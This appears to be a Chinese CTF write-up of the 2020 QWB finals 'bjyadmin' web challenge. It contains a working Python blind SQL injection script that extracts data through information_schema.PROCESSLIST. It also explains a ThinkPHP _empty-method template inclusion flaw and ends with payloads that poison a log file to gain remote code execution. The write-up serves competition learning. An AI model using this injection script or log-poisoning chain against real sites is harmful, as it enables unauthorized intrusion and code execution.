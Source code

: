 date: 2020-09-21
categories:
- 比赛
tags:
- wp
- web
- ctf
title: 2020-QWB-final-bjyadmin
---
# 2020-QWB-final-bjyadmin

## 第一步sql注入

>选手使用攻击机利用靶机中的sql注入漏洞获取bjyadmin框架路径

```
# mysql> select info from PROCESSLIST;
# +------------------------------+
# | info                         |
# +------------------------------+
# | select info from PROCESSLIST |
# +------------------------------+
# 1 row in set (0.00 sec)
```

利用processlist注出字段名，[相关的介绍](https://dev.mysql.com/doc/refman/8.0/en/performance-schema-processlist-table.html)

```python
import requests
import time
ip="192.168.10.110"
#http://101.133.129.243/
def inj(pos,guess):
    # true: real-guess < 0
    # false : guess <= real
    burp0_url = "http://"+ip+"/?id=1'/(if(floor((SELECT(ord(right(left(group_concat(info),{POS}),1)))FROM(information_schema.PROCESSLIST))/{GUESS}),1,0))/'1".format(POS=pos,GUESS=guess)
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
    r=requests.get(burp0_url, headers=burp0_headers,proxies={"http":"http://127.0.0.1:8080"})

    if "Undefined variable: rows in" in r.text:
        return True
    return False
# "http://101.133.129.243:80/?id=1'/(if(floor((SELECT(ord(right(left(group_concat(schema_name),{POS}),1)))FROM(information_schema.schemata))/{GUESS}),1,0))/'1"
# database:2020qwbctf 
# table_name:
result=""
pos=len(result)+1
while True:
    min=32
    max=128
    print(result)
    while True:
        #time.sleep(1)
        
        avr = int((min+max)/2)
        print(avr)
        if not inj(pos,avr):
            if inj(pos,avr+1):
                result+=chr(avr)
                break
            else:
                min=avr
        else:
            max=avr
        if max-min == 1:
            if not inj(pos,min):
                result+=chr(max)
                
            else:
                result+=chr(min)
            break


    
    pos+=1
```



## bjyadmin

题目提供的附件和

https://github.com/baijunyao/thinkphp-bjyadmin

一摸一样

![image2362](https://raw.githubusercontent.com/Explorersss/photo/master/20200921120236.png)

挨个看过去发现有一个容易令人忽略的漏洞（sxgg一眼看出来）



```php
<?php
namespace Home\Controller;
use Common\Controller\HomeBaseController;
/**
 * Vue示例
 */
class VueController extends HomeBaseController{

    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    public function _empty($methed_name){
        $this->display($methed_name);
        exit(0);
    }

    /**
     * 配合thinkphp分页示例
     */
    public function page(){
        // 获取总条数
        $count=M('Province_city_area')->count();
        // 每页多少条数据
        $limit=200;
        $page=new \Org\Nx\Page($count,$limit);
        $data=M('Province_city_area')
            ->limit($page->firstRow.','.$page->listRows)
            ->select();
        echo json_encode($data);
    }

}
```



># ThinkPHP Action中的_empty方法
>
>_empty方法即空操作，当找不到请求的方法时，默认执行该方法，利用这个机制，我们可以实现错误页面和一些URL的优化。
>
>```
>public function _empty($name)
>{
>    echo $name;
>}
>```
>
>参数name,即请求的方法名。如http://localhost/waimai/index.php/Index/sdfewsdf,不存在sdfewsdf方法时，会调用_empty方法，显示sdfewsdf.



当我们调用一个不存在的action时，它会`display ($method) ` ，这将会造成任意模板调用

我们利用`index.php?m=Home&c=Vue&a=evil_path`来调用任意模板，我们可以利用日志文件作为模板文件从而RCE



最后的payload:

```
index.php/Home.php?m=Home&c=Vue&a=Runtime/Logs/User/20_09_17.log
index.php/Home/Vue/web_page&content=<?php/**/phpinfo();
```

